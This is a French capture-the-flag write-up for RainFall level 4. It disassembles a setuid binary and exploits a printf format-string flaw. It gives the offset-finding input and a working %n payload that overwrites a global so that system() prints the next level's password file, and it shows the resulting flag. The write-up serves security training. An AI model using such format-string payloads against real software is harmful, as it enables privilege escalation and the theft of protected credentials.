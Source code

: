 On a un binaire:
```sh
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
Essayons ltrace:
```sh
level4@RainFall:~$ ltrace ./level4
__libc_start_main(0x80484a7, 1, 0xbffff7f4, 0x80484c0, 0x8048530 <unfinished ...>
fgets(dsdsd
"dsdsd\n", 512, 0xb7fd1ac0)                                                    = 0xbffff540
printf("dsdsd\n"dsdsd
)                                                                    = 6
+++ exited (status 0) +++
```
on a un appel a fgets dans un buffer de 512 et a printf. Désassemblons:
```asm
08048444 <p>:
 8048444:       55                      push   ebp
 8048445:       89 e5                   mov    ebp,esp
 8048447:       83 ec 18                sub    esp,0x18
 804844a:       8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 804844d:       89 04 24                mov    DWORD PTR [esp],eax
 8048450:       e8 eb fe ff ff          call   8048340 <printf@plt>
 8048455:       c9                      leave
 8048456:       c3                      ret

08048457 <n>:
 8048457:       55                      push   ebp
 8048458:       89 e5                   mov    ebp,esp
 804845a:       81 ec 18 02 00 00       sub    esp,0x218
 8048460:       a1 04 98 04 08          mov    eax,ds:0x8049804
 8048465:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048469:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 8048470:       00
 8048471:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 8048477:       89 04 24                mov    DWORD PTR [esp],eax
 804847a:       e8 d1 fe ff ff          call   8048350 <fgets@plt>
 804847f:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 8048485:       89 04 24                mov    DWORD PTR [esp],eax
 8048488:       e8 b7 ff ff ff          call   8048444 <p>
 804848d:       a1 10 98 04 08          mov    eax,ds:0x8049810
 8048492:       3d 44 55 02 01          cmp    eax,0x1025544
 8048497:       75 0c                   jne    80484a5 <n+0x4e>
 8048499:       c7 04 24 90 85 04 08    mov    DWORD PTR [esp],0x8048590
 80484a0:       e8 bb fe ff ff          call   8048360 <system@plt>
 80484a5:       c9                      leave
 80484a6:       c3                      ret

080484a7 <main>:
 80484a7:       55                      push   ebp
 80484a8:       89 e5                   mov    ebp,esp
 80484aa:       83 e4 f0                and    esp,0xfffffff0
 80484ad:       e8 a5 ff ff ff          call   8048457 <n>
 80484b2:       c9                      leave
 80484b3:       c3                      ret
 80484b4:       90                      nop
 80484b5:       90                      nop
 80484b6:       90                      nop
 80484b7:       90                      nop
 80484b8:       90                      nop
 80484b9:       90                      nop
 80484ba:       90                      nop
 80484bb:       90                      nop
 80484bc:       90                      nop
 80484bd:       90                      nop
 80484be:       90                      nop
 80484bf:       90                      nop
```
plusieurs observations:
- un **cmp** conditionne l'appel a system qui nous intéresse
- la valeur contenue à l'adresse **0x8049810** dans le data segment est chargée dans **eax** et est comparée à **0x1025544** soit 16930116 qui est bien trop élevé pour que le hack du level3 fonctionne.
- l'appel à system prend une string en argument qui contient directement la commande qui nous donnerait le flag, donc a priori, pas besoin de maintenir un stdin ouvert via un shell:
```bash
(gdb) x/s 0x8048590
0x8048590:       "/bin/cat /home/user/level5/.pass"
```
Nous allons donc procéder à un format exploit de printf. Première étape, chercher l'offset:
```bash
level4@RainFall:~$ python -c 'print "aaaa%p%p%p%p%p%p%p%p%p%p%p%p%p"' | ./level4
aaaa0xb7ff26b00xbffff7940xb7fd0ff4(nil)(nil)0xbffff7580x804848d0xbffff5500x2000xb7fd1ac00xb7ff37d00x616161610x70257025
```
Notre chaîne "aaaa", soit 0x61616161 se trouve en 12ème position!
> Le format %x et %d sont modifiables de manière a spécifier un padding avant d'imprimer la valeur e.g.: %20x met un padding de 20 espaces
Nous allons donc spécifier un padding de **16930116** moins les 4 octets de l'adresse **0x8049810**, ainsi que le format %n pour l'argument en 12ème position:
```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08%16930112x%12$n"' | ./level4
                                          b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
Flag !

